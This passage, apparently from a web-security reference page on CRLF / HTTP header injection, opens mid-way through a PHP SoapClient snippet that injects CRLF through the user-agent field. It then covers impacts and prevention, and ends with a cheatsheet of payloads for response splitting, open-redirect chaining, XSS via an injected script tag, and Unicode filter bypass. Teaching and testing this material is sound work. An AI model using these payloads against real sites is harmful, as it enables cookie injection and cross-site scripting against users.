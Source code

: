```php
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

#Put a nc listening in port 9090
$client->__soapCall("test", []);
```

## Impacts of the CRLF injection Vulnerability

The impact of CRLF injections vary and also include all the impacts of Cross-site Scripting to information disclosure. It can also deactivate certain security restrictions like XSS Filters and the Same Origin Policy in the victim's browsers, leaving them susceptible to malicious attacks.

### How to Prevent CRLF / HTTP Header Injections in Web Applications

The best prevention technique is to not use users input directly inside response headers. If that is not possible, you should always use a function to encode the CRLF special characters. Another good web application security best practise is to update your programming language to a version that does not allow CR and LF to be injected inside functions that set HTTP headers.

### CHEATSHEET

```text
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2 
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

## Tool
